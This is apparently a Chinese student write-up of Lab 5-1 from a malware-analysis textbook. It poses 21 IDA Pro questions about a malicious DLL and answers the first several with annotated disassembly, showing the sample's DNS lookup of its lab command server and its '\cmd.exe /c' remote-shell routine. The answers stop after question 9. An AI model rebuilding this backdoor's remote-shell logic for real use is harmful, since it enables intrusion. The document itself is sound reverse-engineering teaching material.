

# Lab5-1
只用 IDA Pro 分析在文件 Lb05-O1.dl 中发现的恶意代码。这个实验的目标是给你一个用 IDA Pro 动手的经验。如果你已经用 IDA Pro 工作过，你可以选择忽略这些问题，而将精力集中在逆向工程恶意代码上。
# 问题
1．D11Main 的地址是什么？
2．使用 Imports 窗口并浏览到 gethostbyname，导入函数定位到什么地址？
3．有多少函数调用了 gethostbyname？
4．将精力集中在位于 0x10001757 处的对 gethostbyname 的调用，你能找出哪个 DNS 请求将被触发吗？
5．IDA Pro 识别了在 0x10001656 处的子过程中的多少个局部变量？
6．IDA Pro 识别了在 0x10001656 处的子过程中的多少个参数？
7．使用 Strings 窗口，来在反汇编中定位字符串 \cmd.exe/c。它位于哪？
8．在引用 \cmd.exe/c 的代码所在的区域发生了什么？
9．在同样的区域，在 0x100101C8 处，看起来好像 dword＿1008E5C4 是一个全局变量，它帮助决定走哪条路径。那恶意代码是如何设置 dword＿1008E5C4 的呢？（提示：使用 dword＿1008E5C4 的交叉引用。）
10. 在位于 0x1000FF58 处的子过程中的几百行指令中，一系列使用 memcmp 来比较字符串的比较。如果对 robotwork 的字符串比较是成功的（当 memcmp 返回 0), 会发生什么？
11. PSLIST 导出函数做了什么？
12. 使用图模式来绘制出对 sub_10004E79 的交叉引用图。当进入这个函数时，哪个 API 函数可能被调用？仅仅基于这些 API 函数，你会如何重命名这个函数？
13. DllMain 直接调用了多少个 WindowsAPI ? 多少个在深度为 2 时被调用？
14. 在 0×10001358 处，有一个对 Sleep (一个使用一个包含要睡眠的毫秒数的参数的 API 函数）的调用。顺着代码向后看，如果这段代码执行，这个程序会睡眠多久？
15. 在 0×10001701 处是一个对 socket 的调用。它的 3 个参数是什么？
16. 使用 MSDN 页面的 socket 和 IDAPro 中的命名符号常量，你能使参数更加有意义吗？在你应用了修改以后，参数是什么？
17. 搜索 in 指令（opcode 0xED) 的使用。这个指令和一个魔术字符串 VMXh 用来进行 VMware 检测。这在这个恶意代码中被使用了吗？使用对执行 in 指令函数的交叉引用，能发现进一步检测 VMware 的证据吗？
18. 将你的光标跳转到 0×1001D988 处，你发现了什么？
19. 如果你安装了 IDAPython 插件（包括 IDAPro 的商业版本的插件）, 运行 Lab05-01.py, 一个本书中随恶意代码提供的 IDAPro Python 脚本，(确定光标是在 0x1001D988 处。）在你运行这个脚本后发生了什么？
20. 将光标放在同一位置，你如何将这个数据转成一个单一的 ASCII 字符串？
21. 使用一个文本编辑器打开这个脚本。它是如何工作的？
解：
.text:1000D02E在 IDA 中打开此文件，IDA 会直接帮我们定位到 DLLMain 函数，想来是因为此函数具备特征。.idata:100163CC- 把光标放到 gethostbyname 所在的地址处，按下
x使用交叉引用，介意发现观察到：

在整个恶意代码中 gethostbyname 被 5 个函数调用 9 次。
- :
.text:1000174E mov eax, off_10019040 ; eax 指向了一个地址 这里面存储着指向 '[This is RDO] pics.praticalmalwareanalysis.com',0 的首地址 | |
.text:10001753 add eax, 0Dh ; eax + 0xD | |
.text:10001753 ; 此时的 eax 跳过了 [This is RDO] 指向了 pics.praticalmalwareanalysis.com 的首地址 | |
.text:10001756 push eax ; 压栈 压入指向 pics.praticalmalwareanalysis.com 的地址 | |
.text:10001757 call ds:gethostbyname | |
off_10019040 dd offset aThisIsRdoPicsP | |
aThisIsRdoPicsP db '[This is RDO] pics.praticalmalwareanalysis.com',0 |
- : 24 个局部变量
.text:10001656 ; DWORD __stdcall sub_10001656(LPVOID lpThreadParameter) | |
.text:10001656 sub_10001656 proc near ; DATA XREF: DllMain(x,x,x)+C8↓o | |
.text:10001656 | |
.text:10001656 var_675 = byte ptr -675h | |
.text:10001656 var_674 = dword ptr -674h | |
.text:10001656 hModule = dword ptr -670h | |
.text:10001656 timeout = timeval ptr -66Ch | |
.text:10001656 name = sockaddr ptr -664h | |
.text:10001656 var_654 = word ptr -654h | |
.text:10001656 in = in_addr ptr -650h | |
.text:10001656 Str1 = byte ptr -644h | |
.text:10001656 var_640 = byte ptr -640h | |
.text:10001656 CommandLine = byte ptr -63Fh | |
.text:10001656 Str = byte ptr -63Dh | |
.text:10001656 var_638 = byte ptr -638h | |
.text:10001656 var_637 = byte ptr -637h | |
.text:10001656 var_544 = byte ptr -544h | |
.text:10001656 var_50C = dword ptr -50Ch | |
.text:10001656 var_500 = byte ptr -500h | |
.text:10001656 Buf2 = byte ptr -4FCh | |
.text:10001656 readfds = fd_set ptr -4BCh | |
.text:10001656 buf = byte ptr -3B8h | |
.text:10001656 var_3B0 = dword ptr -3B0h | |
.text:10001656 var_1A4 = dword ptr -1A4h | |
.text:10001656 var_194 = dword ptr -194h | |
.text:10001656 WSAData = WSAData ptr -190h | |
.text:10001656 lpThreadParameter= dword ptr 4 |
1 个参数
10095B34 aCmdExeC db '\cmd.exe /c ',0把这串字符串拼接到了临时变量 Destination 的后面，Destination 中之前存储的是系统目录，在后续操作中 将此变量作为参数 调用了 CreateProcessA 函数，既打开了 Shell 会话。
整个恶意代码中对 dword_1008E5C4 变量涉及写操作的代码如下：
.text:10001673 call ProbeSystemVersion ; 这个函数被我重命名了 | |
.text:10001678 mov dword_1008E5C4, eax ; 把返回值赋给全局变量 是一个布尔类型的值 |
调用了一个函数后把 eax 也就是函数的返回值赋给了这个全局变量，看一看这个函数做了什么：
.text:10003695 ProbeSystemVersion proc near ; CODE XREF: sub_10001656+1D↑p | |
.text:10003695 ; sub_10003B75+7↓p ... | |
.text:10003695 | |
.text:10003695 VersionInformation= _OSVERSIONINFOA ptr -94h | |
.text:10003695 | |
.text:10003695 push ebp | |
.text:10003696 mov ebp, esp | |
.text:10003698 sub esp, 94h | |
.text:1000369E lea eax, [ebp+VersionInformation] | |
.text:100036A4 mov [ebp+VersionInformation.dwOSVersionInfoSize], 94h | |
.text:100036AE push eax ; lpVersionInformation | |
.text:100036AF call ds:GetVersionExA | |
.text:100036B5 xor eax, eax | |
.text:100036B7 cmp [ebp+VersionInformation.dwPlatformId], 2 ; 2 表示操作系统是 | |
.text:100036B7 ; Windows 7、Windows Server 2008、 | |
.text:100036B7 ; Windows Vista、Windows Server 2003、 | |
.text:100036B7 ; Windows XP 或 Windows 2000。 | |
.text:100036BE setz al ; 把 ZF 标志位赋值给 al | |
.text:100036C1 leave | |
.text:100036C2 retn | |
.text:100036C2 ProbeSystemVersion endp |
可以发现此函数就是判断操作系统是否是 Windows 7、Windows Server 2008、Windows Vista、Windows Server 2003、Windows XP 或 Windows 2000。如果是的话返回值就是 1 不是的话返回值就是 0 然后根据这个结果判断 Shell 会话是 cmd.exe 还是 command.exe ，后面会调用 CreateProcessA 来创建一个 Shell 会话，另外根据上下代码的一些字符串可以知道，此函数主要是为了开启远程 Shell 会话。